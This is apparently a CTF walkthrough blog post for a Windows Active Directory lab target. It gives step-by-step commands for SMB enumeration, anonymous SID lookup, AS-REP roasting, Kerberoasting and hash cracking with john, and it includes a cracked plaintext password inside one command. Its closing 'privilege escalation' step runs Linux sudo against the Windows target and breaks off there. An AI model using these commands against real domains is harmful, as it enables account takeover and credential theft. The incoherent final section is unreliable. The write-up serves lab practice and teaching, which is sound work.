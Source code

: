 ```yaml
---
layout: post
author: Fr4nSec
tags: [Windows, SMB,]
---
```


CTF challenge having a Windows target. SMB is key to solve it.

## Objectives

- Obtain the user flag
- Obtain the system flag (root)

## Recon

Let's scan the target IP address..

```
nmap -p- -sS --min-rate 5000 -n -Pn 10.10.216.196
```
![scan1](/images/scan1.jpg)

Once we have a list of open ports, let's scan those ports more in depth.

```
nmap -p 53,135,139,389,445,464,636,3268,5985,9389 -sCV 10.10.216.196 > PortScan
cat PortScan
```

![scan2](/images/scan2.jpg)

We can see some information like domain name and the host.

- Domain: vulnnet-rst.local0
- Host: WIN-2BO8M1OE1M1

Port 445 (SMB) is open. Let's see what we can retrieve from there.

```
smbmap -H 10.10.216.196 -u anonymous
```

![smb1](/images/smb1.jpg)




## Exploitation

IPC$ seems to be readable. That means we might be able to ennumerate names of domain accounts. Let's try:

```
impacket-lookupsid anonymous@10.10.216.196
```

![smb2](/images/smb2.jpg)

We can see some user names, let's strip out the data we don't need. Copy the result to a file and run the below to keep only the user names.

```
cat fullinfo.txt | grep SidTypeUser | awk -F'\' '{print $2}' | awk -F'(' '{print $1}'
```

![users1](/images/users.jpg)

Now, having a list of users, let's try to harvest AS_REP responses to see if we can get a hash. (The IP changed because i had to restart the target machine).

```
impacket-GetNPUsers 'VULNNET-RST/' -usersfile users.txt -no-pass -dc-ip 10.10.171.250
```
![hash1](/images/hash1.jpg)

We obtained the hash for the user t-skid. We can try brute force it:

```
john hash1 --wordlist=/home/kali/rockyou.txt 
```

![crackedhash](/images/crackedhash.jpg)

Now let's try to find some SPN associated with user accounts. Result should be a file with encrypted password.

```
impacket-GetUserSPNs 'VULNNET-RST.local/t-skid:tj072889*' -outputfile hashes -dc-ip 10.10.171.250 
```

![GetUserSPNs](/images/SPN.jpg)

![hash2](/images/hash2.jpg)

Now we can try crack it the same way as before:

![cracked2](/images/cracked2.jpg)



## Privilege escalation

Let's check if sudo has any additional configuration..

```
sudo cat /root/root.txt
```
